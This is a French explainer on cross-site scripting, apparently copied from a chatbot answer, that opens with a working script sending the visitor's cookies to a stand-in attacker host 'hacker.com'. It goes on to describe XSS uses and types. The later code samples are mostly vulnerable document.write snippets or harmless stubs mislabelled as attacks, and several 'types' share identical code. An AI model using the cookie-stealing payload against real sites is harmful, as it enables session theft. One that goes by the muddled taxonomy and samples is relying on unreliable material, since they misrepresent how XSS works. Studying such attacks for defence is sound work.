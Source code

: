 Voici un exemple de code XSS (Cross-Site Scripting) qui peut être utilisé pour voler les cookies d'un utilisateur :

<script>
  var cookie = document.cookie;
  var url = "http://hacker.com/?cookie=" + cookie;
  var img = new Image();
  img.src = url;
</script>

Ce code crée une image avec l'URL d'un site malveillant qui inclut les cookies de l'utilisateur dans l'URL. Lorsque l'utilisateur visite la page, le script sera exécuté dans son navigateur et les cookies seront envoyés à l'adresse indiquée dans l'URL, permettant au pirate informatique de les récupérer.

### Voici d'autres exemples d'attaques XSS (Cross-Site Scripting) :

Un pirate informatique peut injecter du code JavaScript malveillant dans un formulaire de contact d'un site web, de sorte que lorsqu'un utilisateur remplit et soumet le formulaire, le script malveillant est exécuté dans son navigateur.

Un pirate informatique peut également utiliser une attaque XSS pour créer une fausse page de connexion sur un site web, de sorte que lorsqu'un utilisateur entre ses informations de connexion, elles sont en fait envoyées au pirate informatique au lieu d'être traitées par le site web légitime.

Une attaque XSS peut également être utilisée pour afficher des pop-ups publicitaires intempestifs sur un site web lorsqu'un utilisateur le visite, de sorte que le pirate informatique peut générer des revenus en affichant des publicités.

Un pirate informatique peut également utiliser une attaque XSS pour détourner les clics d'un utilisateur vers un site web malveillant, de sorte que lorsque l'utilisateur clique sur un lien sur un site web légitime, il est redirigé vers un site web malveillant au lieu de l'endroit où il voulait aller.

Enfin, un pirate informatique peut utiliser une attaque XSS pour collecter des informations sensibles sur les utilisateurs d'un site web, telles que leur nom d'utilisateur, leur mot de passe, leur adresse e-mail, etc. et les utiliser à des fins malveillantes.


### Voici une liste d'exemples d'attaques XSS (cross-site scripting) :

XSS persistant : Dans ce type d'attaque, l'attaquant injecte du code malveillant dans un site web ou une application web qui est enregistré dans la base de données. Lorsque d'autres utilisateurs visitent le site web ou l'application, le code malveillant est exécuté dans leur navigateur web.

XSS non persistant : Ce type d'attaque consiste à injecter du code malveillant dans un site web ou une application web qui n'est pas enregistré dans la base de données. Le code est exécuté dans le navigateur web des utilisateurs qui visitent le site web ou l'application tant que le code est encore actif.

XSS basé sur DOM : Ce type d'attaque consiste à injecter du code malveillant dans le modèle d'objet de document (DOM) d'un site web ou d'une application web. Le code est exécuté dans le navigateur web des utilisateurs qui visitent le site web ou l'application.

XSS stocké : Ce type d'attaque consiste à injecter du code malveillant dans un site web ou une application web qui est stocké sur le serveur. Lorsque d'autres utilisateurs visitent le site web ou l'application, le code malveillant est exécuté dans leur navigateur web.

XSS reflété : Dans ce type d'attaque, l'attaquant injecte du code malveillant dans un site web ou une application web via un lien malveillant qui est envoyé à la victime. Lorsque la victime clique sur le lien, le code malveillant est exécuté dans son navigateur web.

Voici un exemple de code d'une attaque XSS reflétée :

Copy code
<script>
  var url = new URL(window.location.href);
  var c = url.searchParams.get("c");
  document.write(c);
</script>
Dans cet exemple, l'attaquant peut envoyer un lien contenant un paramètre "c" qui contient du code malveillant. Lorsque la victime clique sur le lien, le code malveillant est exécuté dans son navigateur web.

Voici un exemple de code d'une attaque XSS stocké :

<script>
  var comment = "Hello, this is a malicious comment!";
  // Save the comment to the database
  saveComment(comment);
</script>
Dans cet exemple, l'attaquant injecte du code malveillant dans un formulaire de commentaire sur un site web. Lorsque l'administrateur du site web consulte les commentaires, le code malveillant est exécuté dans son navigateur web.

Voici des exemples de code pour les autres types d'attaques XSS :

XSS persistant :
Copy code
<script>
  var comment = "Hello, this is a malicious comment!";
  // Save the comment to the database
  saveComment(comment);
  
  // Load the comments from the database and display them on the page
  var comments = loadComments();
  for (var i = 0; i < comments.length; i++) {
    document.write(comments[i]);
  }
</script>
XSS non persistant :
Copy code
<script>
  // Parse the URL to get the "c" parameter
  var url = new URL(window.location.href);
  var c = url.searchParams.get("c");
  // Write the parameter to the page
  document.write(c);
</script>
XSS basé sur DOM :
Copy code
<script>
  // Get the URL of the page
  var url = window.location.href;
  // Parse the URL to get the "c" parameter
  var url = new URL(window.location.href);
  var c = url.searchParams.get("c");
  // Write the parameter to the page
  document.write(c);
</script>
XSS stocké :
Copy code
<script>
  // Load the comments from the database and display them on the page
  var comments = loadComments();
  for (var i = 0; i < comments.length; i++) {
    document.write(comments[i]);
  }
</script>
XSS reflété :
Copy code
<script>
  // Parse the URL to get the "c" parameter
  var url = new URL(window.location.href);
  var c = url.searchParams.get("c");
  // Write the parameter to the page
  document.write(c);
</script>
Dans ces exemples, l'attaquant injecte du code malveillant dans les différents éléments du site web ou de l'application web. Lorsque la victime visite le site web ou l'application, le code malveillant est exécuté dans son navigateur web.